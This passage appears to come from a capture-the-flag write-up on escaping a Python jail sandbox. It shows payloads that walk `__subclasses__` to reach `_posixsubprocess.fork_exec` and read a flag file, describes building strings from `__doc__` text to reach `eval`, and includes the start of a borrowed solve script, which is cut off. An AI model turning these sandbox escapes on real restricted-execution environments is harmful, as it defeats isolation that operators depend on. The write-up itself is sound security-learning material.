 ```py
[lm:=().__class__.__base__.__subclasses__()[104].load_module,p:=__import__("os").pipe,_ps:=lm("_posixsubprocess"),_ps.fork_exec([b"/bin/cat", b"flag.txt"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(p()), False, False, None, None, None, -1, None)]
```

So using `_posixsubprocess.fork_exec` we bypass that sandobx. Cool, but there's a catch: `fork_exec` requires exactly 21 arguments. As I said before, we're allowed to pass exactly 1 argument using `_.__class_getitem__`

And now what?

## Building payloads from docs

I specified earlier that `eval` is not completely deleted. In fact, we can access it from the `__main__` module. Since we can't import anything, we can reach the `sys` module from some objects found in `().__class__.__base__.__subclasses()` andd then access to `eval` using `sys.modules['__main__']`

But how can `eval` be useful to us?

Our goal is to call `fork_exec` passing to it 21 arguments. We can build payloads from scratch using docs (eg. `[].__doc__`). If some characters are not in the docs, we can get them from `_.__qualname__`

So, our main idea would be:
 - Build a payload from docs which would call `_posixsubprocess.fork_exec`
 - Reach `__main__.eval`
 - Call it and pass the payload as the first argument
 - Profit

## Solve

I copy pasted the solve for `PyMagic`, you can find it [here](https://github.com/SuperStormer/writeups/blob/master/tcp1pctf_2023/misc/pymagic/solve_pymagic.py) (Credits to SuperStormer)


```py
from pwn import *

def gen_int(i):
        if i == 0:
                return "False"
        else:
                return "--".join(["True"] * i)

def call_function(f, arg):
        return (f"[[None for _.__class_getitem__ in [{f}]],"
                f"_[{arg}]][True]")

type_s = "_.__class__"
object_s = "_.__base__"
subclasses = call_function(type_s + ".__subclasses__", object_s) # _.__class__.__subclasses__(_.__base__)

wrap_close = f"{subclasses}[{gen_int(137)}]" # os._wrap_close
os_module = f"{wrap_close}.__init__.__globals__"

class ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz:pass

def build_string(string):
    src = [].__doc__.__doc__ + {}.__doc__
    final = ""
    for x in string:
        fromdoc = (a:=src.find(x)) != -1
        if fromdoc:
            final += f"[[].__doc__.__doc__+{{}}.__doc__][False][{gen_int(a)}]+"
```